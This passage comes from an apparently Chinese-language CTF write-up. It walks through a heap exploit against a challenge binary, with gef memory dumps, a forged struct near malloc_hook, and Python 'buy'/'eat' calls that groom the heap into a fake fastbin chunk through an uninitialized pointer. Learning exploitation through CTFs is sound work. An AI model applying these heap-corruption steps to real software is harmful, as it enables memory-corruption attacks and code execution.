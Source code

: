     0x5582080d3170:	0x4343434343434343	0x4343434343434343
    gef➤  
    0x5582080d3180:	0x0000000000000080	0x0000000000000040
    0x5582080d3190:	0x4343434343434343	0x4343434343434343
    0x5582080d31a0:	0x4343434343434343	0x4343434343434343
    0x5582080d31b0:	0x4343434343434343	0x00005582080d30b0

则此时整个链表的结构为
0x00005582080d30d0->0x00005582080d3120->0x00005582080d3100->0x00005582080d3140->0x00005582080d30e0->0x00005582080d30f0->0x00007f09679f2af8(malloc_hook - 0x18)
此时我们再看一下malloc_hook - 0x18 处的内容

    gef➤  x/8gx 0x00007f09679f2af8
    0x7f09679f2af8:	0x0000000000000000<--next	0x00007f09676b3e21<---num
    0x7f09679f2b08 <__realloc_hook>:	0x00007f09676b3a00<---name	0x0000000000000000
    0x7f09679f2b18:	0x0000000000000000	0x0000000000000000
    0x7f09679f2b28 <main_arena+8>:	0x0000000000000000	0x000000000000
再去看一下name里面的内容

    gef➤  x/8gx 0x7f09676b3a00
    0x7f09676b3a00 <realloc_hook_ini>:	0x5441554156415741	0xfb89485355f58949
    0x7f09676b3a10 <realloc_hook_ini+16>:	0xd5058b4838ec8348	0xe5ae2d8b480033e4
    0x7f09676b3a20 <realloc_hook_ini+32>:	0x00000000c7480033	0x480033e715058b00
    0x7f09676b3a30 <realloc_hook_ini+48>:	0x85000000000045c7	0x3100000221880fc0
那么我们只要购买这个name的东西一定数值，我们就可以控制num字段为0x21(这里注意一下num的大小占用四个字节)

而后我们要在main_arena中伪造一个food结构体，由于我们可控的字段只有name和num，所以伪造的结构体的num字段设置为fb[0],name设置为fb[1]
首先我们需要一个0x30大小的fastbin（fb[0]）

    buy(p64(heap_base+0xd0),123)
    buy(p64(heap_base+0x10),123)
    #balance the heap struct
    buy('a'*0x10+p64(0xDEADBEEF11),0x31)#?
    buy(p64(0xDEADBEEF11),0x31)
    buy('padding',0x31)
    
    buy('C'*40+p64(heap_base+0x1e0),123)
    eat(5)
利用的是以上的代码，在执行堆风水操作之后堆的结构是这样的：

    gef➤  
    0x561607324160:	0x0000561607324170	0x0000000000000021
    0x561607324170:	0x6161616161616161	0x6161616161616161
    0x561607324180:	0x000000deadbeef11	0x0000000000000041
    0x561607324190:	0x4343434343434343	0x4343434343434343
    gef➤  
    0x5616073241a0:	0x4343434343434343	0x4343434343434343
    0x5616073241b0:	0x4343434343434343	0x00005616073240b0
    0x5616073241c0:	0x0000000000000000	0x0000000000000021
    0x5616073241d0:	0x0000561607324150	0x0000000000000031<--fake fastbin chunk
    gef➤  
    0x5616073241e0:	0x00005616073241f0	0x0000000000000021
    0x5616073241f0:	0x000000deadbeef11	0x0000000000000000
    0x561607324200:	0x0000000000000000	0x0000000000000021
    0x561607324210:	0x00005616073241d0	0x0000000000000031
    gef➤  
    0x561607324220:	0x0000561607324230	0x0000000000000021
    0x561607324230:	0x00676e6964646170	0x0000000000000000
    0x561607324240:	0x0000000000000000	0x0000000000020dc1
    0x561607324250:	0x0000000000000000	0x0000000000000000
free掉他的方式跟之前一样，利用指针未初始化。
而后我们需要一个0x20大小的fastbin，而且这个指针我们需要可控，于是乎同样需要一波风水操作（与之前类似）


  [1]: https://changochen.github.io/2018/09/01/Tokyo-Western_CTF-2018/